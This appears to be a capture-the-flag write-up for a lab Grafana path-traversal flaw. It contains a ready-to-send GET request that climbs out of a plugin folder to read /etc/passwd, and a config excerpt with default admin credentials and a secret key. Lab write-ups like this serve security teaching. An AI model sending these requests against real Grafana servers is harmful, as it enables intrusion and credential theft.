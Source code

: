 # IoT Hacking CLUS CTF Flags

The following are the CTF flags for the grafana vulnerability in the IoT device:

The vulnerability is caused by plugin module, which is able to serve the static file inside the plugin folder. But for lock of check, attacker can use ../ to step up from the plugin folder to parent foler and download arbitrary files.

To exploit the vulnerabilty, you should know a valid plugin id, such as alertlist, here are some of common plugin ids:
```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```
Send following request to retrieve the **/etc/passwd ** (you can replace the alertlist with any valid plugin id):

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: http://192.168.3.126:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```
<img width="791" alt="image" src="https://github.com/The-Art-of-Hacking/h4cker/assets/1690898/13f46b3b-1948-4f6e-a6bf-bf28a3c4fc05">


## Getting the Admin Password and Secret Key

It is just the default example configuration:
```
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
;admin_password = admin

...

# used for signing
;secret_key = SW2YcwTIb9zpOOhoPsMm
```

<img width="1920" alt="image" src="https://github.com/The-Art-of-Hacking/h4cker/assets/1690898/e306aa9c-a980-4001-bc6d-2cbacf7d8b0a">
